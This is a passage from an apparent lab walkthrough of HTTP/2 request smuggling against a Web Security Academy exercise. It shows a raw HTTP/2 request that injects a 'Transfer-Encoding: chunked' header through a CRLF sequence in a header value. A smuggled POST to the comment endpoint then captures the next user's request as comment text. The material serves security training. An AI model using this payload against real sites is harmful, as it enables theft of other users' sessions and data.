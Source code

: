 We will change the request to “/404” for a payload to post a comment:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST / HTTP/2
...
Fo: ba\r\nTransfer-Encoding: chunked
Content-Type: application/x-www-form-urlencoded
Content-Length: 112

0

POST /post/comment HTTP/1.1
Host: 0a17003f0315a26781520cb5003200e0.web-security-academy.net
Cookie: session=BEv90Mt3fW0Ua3AiXdnRALcLTbcb1cfg; _lab_analytics=W8jIeMIzkpt2G9gyOcEFT7MFiZ9uNAOOZ88XEIvVkMgtrQsLrERyvJzQWYeBc1PbyatXyOMh1ZeLQyaqanxeybVTjzHVgx9YB99tmlK2eAkoQgvyLpNdoA3RE1zMyYP90bUEpeuwHcz8h0Fqcg8FLqvmVUbp1BAOCpmqjZ5jPJIVyleFT7Hye1PWojmaKKbY4pRRrF6d8yWPs1k4dP1aCt6d6UcTgLvoKp4Ji6amjKEGvwTm4s0cR8zPbWSmFnf0
Content-Length: 100

csrf=NO7t8vaJHMNuLmScMM45gMnp6NskWAQg&postId=9&name=test2&email=test3@test.com&website=http://test4.com&comment=
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/89a6f180e7b3ddee93a25e8c1c02417f.png)

We see the request is written as a comment in the post:

![img](media/83a0731303762f4790bcb51a95e25262.png)
